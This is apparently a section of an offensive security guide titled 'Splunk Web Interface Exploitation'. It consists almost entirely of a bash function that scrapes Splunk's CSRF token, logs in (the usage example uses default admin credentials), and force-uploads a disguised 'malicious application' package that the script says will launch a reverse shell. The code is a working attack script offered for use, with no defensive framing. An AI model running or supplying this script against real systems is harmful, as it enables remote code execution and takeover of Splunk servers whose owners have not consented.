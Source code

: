 ### Splunk Web Interface Exploitation

#### Application Upload Process
```bash
# Automated application upload via web interface
upload_malicious_app() {
    local splunk_url=$1
    local username=$2
    local password=$3
    local app_package=$4
    
    echo "[+] Uploading malicious application to Splunk"
    
    # Step 1: Authenticate and get session cookies
    csrf_token=$(curl -s "$splunk_url/en-US/account/login" | \
      grep -oP 'name="splunk_form_key" value="\K[^"]+')
    
    login_response=$(curl -s -c cookies.txt \
      -d "username=$username&password=$password&splunk_form_key=$csrf_token" \
      "$splunk_url/en-US/account/login" \
      -w "%{http_code}")
    
    if [[ $login_response == *"200"* ]]; then
        echo "[+] Authentication successful"
    else
        echo "[-] Authentication failed"
        return 1
    fi
    
    # Step 2: Navigate to app installation page
    upload_page=$(curl -s -b cookies.txt \
      "$splunk_url/en-US/manager/appinstall/_upload")
    
    # Extract upload form token
    upload_token=$(echo "$upload_page" | \
      grep -oP 'name="splunk_form_key" value="\K[^"]+')
    
    # Step 3: Upload malicious application
    echo "[+] Uploading application package: $app_package"
    
    upload_response=$(curl -s -b cookies.txt \
      -F "splunk_form_key=$upload_token" \
      -F "appfile=@$app_package" \
      -F "force=1" \
      "$splunk_url/en-US/manager/appinstall/_upload" \
      -w "%{http_code}")
    
    if [[ $upload_response == *"200"* ]]; then
        echo "[+] Application uploaded successfully"
        echo "[+] Reverse shell should execute within 10-20 seconds"
    else
        echo "[-] Application upload failed: HTTP $upload_response"
    fi
    
    # Cleanup
    rm -f cookies.txt
}

# Usage:
# upload_malicious_app "http://target.com:8000" "admin" "changeme" "system_updater.tar.gz"
```
